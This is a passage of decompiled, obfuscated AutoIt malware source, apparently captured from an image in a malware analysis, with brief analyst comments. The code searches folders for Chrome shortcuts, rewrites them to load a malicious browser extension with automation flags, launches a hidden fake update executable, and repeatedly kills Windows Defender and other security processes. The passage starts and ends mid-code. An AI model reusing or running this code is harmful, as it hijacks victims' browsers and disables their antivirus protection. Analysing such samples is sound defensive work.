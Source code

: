 ```autoit
		If $array2d[$counter][1] = 1 Then
			ezmdwuawsws($array2d[$counter][0])
		EndIf
		sesrarlhuog($array2d[$counter][0])
	Next
EndFunc

Func ezmdwuawsws($p)
	Local $returnvalue = xpwtesac($p, "*", 2)
	If @error = 0 Then
		For $counter = 1 To $returnvalue[0]
			sesrarlhuog($p & "\" & $returnvalue[$counter])
			ezmdwuawsws($p & "\" & $returnvalue[$counter])
		Next
	EndIf
EndFunc

Func sesrarlhuog($dgtnmsyt)
	Local $qfmiznc = xpwtesac($dgtnmsyt, "*.lnk")
	If @error = 0 Then
		$hajaxgrbel = $qfmiznc[0]
		For $counter = 1 To $hajaxgrbel
			ajaqfqn($dgtnmsyt & '\' & $qfmiznc[$counter])
		Next
	EndIf
EndFunc

Func ajaqfqn($kxpdbrfgb) ; Check shortcut name. "chrome" or "chromium" also work.
	$gfwbjvvluo = FileGetShortcut($kxpdbrfgb)
	If NOT @error Then
		$agbhl = vpmfq($gfwbjvvluo[0], "", "", "", "")
		If $agbhl[3] = "chrome" Then
			fuaxi($gfwbjvvluo, $kxpdbrfgb)
		EndIf
	EndIf
EndFunc

Func fuaxi($gfwbjvvluo, $kxpdbrfgb) ; Chrome shortcut with malaware extension
	FileCreateShortcut($gfwbjvvluo[0], $kxpdbrfgb, $gfwbjvvluo[1], "--enable-automation --disable-blink-features=AutomationControlled --load-extension=" & $virusdir)
EndFunc

Func zlmsyuslmwzh() ; Inject fake update service to Chrome and kill Windows Defender
	If "X86" = "X64" Then ; Originally @CPUArch
		$toujmktea = "update-x64.exe"
	Else
		$toujmktea = "update-x86.exe"
	EndIf
	While 1
		If FileExists($virusdir & "\" & $toujmktea) Then
			If NOT ProcessExists($toujmktea) Then
				Run($virusdir & "\" & $toujmktea, $virusdir, @SW_HIDE)
			EndIf
		EndIf
		ProcessClose("software_reporter_tool.exe")
		ProcessClose("MsMpEng.exe")
		ProcessClose("SecurityHealthHost.exe")
		ProcessClose("SecurityHealthService.exe")
		Sleep(3000)
	WEnd
EndFunc

Func xpwtesac($p1, $p2 = "*", $p3 = 0, $p4 = False)
```